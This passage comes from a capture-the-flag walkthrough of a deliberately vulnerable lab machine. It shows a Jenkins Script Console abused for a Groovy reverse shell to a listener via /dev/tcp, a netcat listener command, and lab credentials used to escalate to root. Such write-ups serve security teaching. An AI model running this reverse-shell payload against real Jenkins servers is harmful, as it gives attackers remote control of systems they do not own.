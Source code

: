 We now have the admin's password. Let's connect to http://internal.thm:8888 with `admin:spongebob`.

## Reverse shell in docker

Now that we have an admin access to Jenkins, we can run commands, and we'll ultimately exploit this to have a reverse shell.

Start by running a listener (on your machine):

~~~
$ rlwrap nc -nlvp 5555
~~~

Now, in Jenkins, go to "Jenkins > Nodes > master" and click on "Script Console" from the menu. Execute the following command (found [here](https://alionder.net/jenkins-script-console-code-exec-reverse-shell-java-deserialization/)):

~~~
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.8.50.72/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
~~~

## Root password

In our listener, we now have a reverse shell. Browsing the file system reveals that the root password is disclosed in clear:

~~~
cd /opt
ls -la
total 12
drwxr-xr-x 1 root root 4096 Aug  3 03:31 .
drwxr-xr-x 1 root root 4096 Aug  3 03:07 ..
-rw-r--r-- 1 root root  204 Aug  3 03:31 note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
~~~

## Root flag

Back to our initial SSH connection as `aubreanna`:

~~~
aubreanna@internal:/var/backups$ su root
Password: 
root@internal:/var/backups# cd /root/
root@internal:~# ll
total 48
drwx------  7 root root 4096 Aug  3 13:16 ./
drwxr-xr-x 24 root root 4096 Aug  3 01:31 ../
-rw-------  1 root root  193 Aug  3 20:01 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Aug  3 02:23 .cache/
drwx------  3 root root 4096 Aug  3 02:23 .gnupg/
drwxr-xr-x  3 root root 4096 Aug  3 01:53 .local/
-rw-------  1 root root 1071 Aug  3 13:16 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Aug  3 01:40 .ssh/
-rw-r--r--  1 root root   22 Aug  3 04:13 root.txt
~~~